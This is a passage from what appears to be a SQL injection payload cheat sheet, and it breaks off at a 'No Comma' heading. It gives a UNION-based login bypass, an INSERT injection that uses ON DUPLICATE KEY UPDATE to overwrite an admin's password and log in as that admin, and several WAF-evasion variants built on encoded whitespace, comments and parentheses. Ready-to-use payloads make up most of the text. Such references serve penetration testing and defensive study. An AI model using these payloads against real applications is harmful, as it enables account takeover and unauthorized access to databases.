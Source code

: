 ## Routed injection

```sql
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```

## Insert Statement - ON DUPLICATE KEY UPDATE

ON DUPLICATE KEY UPDATE keywords is used to tell MySQL what to do when the application tries to insert a row that already exists in the table. We can use this to change the admin password by:

```sql
Inject using payload:
  attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" --

The query would look like this:
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" -- ", "bcrypt_hash_of_your_password_input");

This query will insert a row for the user “attacker_dummy@example.com”. It will also insert a row for the user “admin@example.com”.
Because this row already exists, the ON DUPLICATE KEY UPDATE keyword tells MySQL to update the `password` column of the already existing row to "bcrypt_hash_of_qwerty".

After this, we can simply authenticate with “admin@example.com” and the password “qwerty”!
```

## WAF Bypass

No Space (%20) - bypass using whitespace alternatives

```sql
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

No Whitespace - bypass using comments

```sql
?id=1/*comment*/and/**/1=1/**/--
```

No Whitespace - bypass using parenthesis

```sql
?id=(1)and(1)=(1)--
```

No Comma - bypass using OFFSET, FROM and JOIN
